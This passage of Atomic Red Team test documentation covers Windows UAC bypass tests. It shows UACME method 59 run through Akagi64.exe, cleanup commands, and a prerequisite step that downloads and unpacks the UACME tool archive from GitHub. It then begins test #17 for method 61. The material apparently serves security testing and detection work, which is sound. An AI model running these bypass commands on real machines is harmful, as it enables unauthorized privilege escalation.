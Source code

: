 UCM Method: UacMethodDebugObject

https://github.com/hfiref0x/UACME

**Supported Platforms:** Windows

**auto_generated_guid:** dfb1b667-4bb8-4a63-a85e-29936ea75f29

#### Inputs:

| Name      | Description              | Type | Default Value                                                                |
| --------- | ------------------------ | ---- | ---------------------------------------------------------------------------- |
| uacme_exe | Path to uacme executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;uacme&#92;59 Akagi64.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:

```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")

##### Check Prereq Commands:

```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```

<br/>
<br/>

## Atomic Test #17 - UACME Bypass Method 61

Executes User Account Control Bypass according to the methods listed below. Upon successful execution you should see event viewer load and two administrative command prompts.
Note: The cleanup_command's which kill the spawned cmd and event viewer processes only work if run as admin.
